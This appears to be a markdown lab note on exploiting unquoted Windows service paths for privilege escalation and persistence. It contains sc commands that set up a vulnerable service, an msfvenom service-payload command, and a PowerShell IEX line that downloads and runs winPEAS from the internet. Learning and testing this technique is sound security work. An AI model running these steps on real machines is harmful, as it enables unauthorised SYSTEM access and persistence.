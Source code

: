 # UNQUOTED SERVICE PATH

# SUMMARY

Adversaries may execute their own malicious payloads by hijacking vulnerable file path references. Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher level directory within the path, so that Windows will choose the adversary's executable to launch.

Service paths and shortcut paths may also be vulnerable to path interception if the path has one or more spaces and is not surrounded by quotation marks (e.g., C:\unsafe path with space\program.exe vs. "C:\safe path with space\program.exe"). [2] (stored in Windows Registry keys) An adversary can place an executable in a higher level directory of the path, and Windows will resolve that executable instead of the intended executable. For example, if the path in a shortcut is C:\program files\myapp.exe, an adversary may create a program at C:\program.exe that will be run instead of the intended program.

This technique can be used for persistence if executables are called on a regular basis, as well as privilege escalation if intercepted executables are started by a higher privileged process.

# MITRE

![screenshot](./images/token_unquoted.jpg)

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\"
- create pingservice in vs2019
- copy pingservice as "VulnService.exe" to this path

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc config VulnService obj= ".\Threatadmin" password= "Threathunt25"
sc qc VulnService
sc start VulnService
```

When there are spaces in a service path, windows will try to find the service as follows:

It will parse "C:\MyPrograms\Vulnerable Service\service.exe" into

- Potential service : "C:\MyPrograms\vulnerable.exe"
- with arguments `Service\service.exe`

By placing a malicious service exe in "C:\MyPrograms\" named `vulnerable.exe`, we'll escalate privileges to NT SYSTEM AUHTORITY (if the service is running with those privileges)

# Generate a simple MSFVenom service payload that pops a text box

On Kali:

```bash
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE" -f svc -o msg.exe


Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```




> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `Code-Execution` and `Persistence`!!!